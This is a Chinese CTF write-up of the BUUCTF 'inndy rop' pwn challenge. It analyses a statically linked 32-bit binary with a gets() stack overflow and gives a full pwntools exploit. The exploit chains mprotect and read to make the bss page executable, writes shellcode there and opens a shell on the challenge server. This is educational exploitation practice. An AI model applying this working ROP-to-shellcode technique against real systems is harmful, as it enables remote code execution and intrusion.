 ```yaml
---
author: 
  name: Zephyr
title: inndy rop
date: 2022-4-5 09:23:14
permalink: /pages/2e1547494524d1a6
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# inndy rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/inndy_rop/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

main函数静态分析失败

overflow函数如下：

```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  return gets(&v1);
}
```



## 动态分析

![inndy_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/inndy_rop_1.png)

可以看到主函数只调用了overflow

### 链接方式

```shell
file rop
rop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=e9ed96cd1a8ea3af86b7b73048c909236d570d9e, not stripped
```

静态链接文件

## 思路分析

1. 目前信息：

   - overflow函数存在任意长度的溢出点
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 溢出劫持执行流到mprotect修改bss段的权限，将shellcode写入bss段处，返回并执行获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/inndy_rop/rop'
io = remote('node4.buuoj.cn', 28710)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0xc+4
mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']
bss_start = elf.bss() & 0xfffff000  # 页对齐
print(hex(bss_start))
bss_size = 0x1000
rwx = 7
pop_3times_ret = 0x0806ecd8
payload = flat(['a'*padding, mprotect_addr, pop_3times_ret, bss_start,bss_size, rwx, read_addr, bss_start, 0, bss_start, bss_size])
io.sendline(payload)
shellcode = asm(shellcraft.sh())
io.send(shellcode)
io.interactive()
```

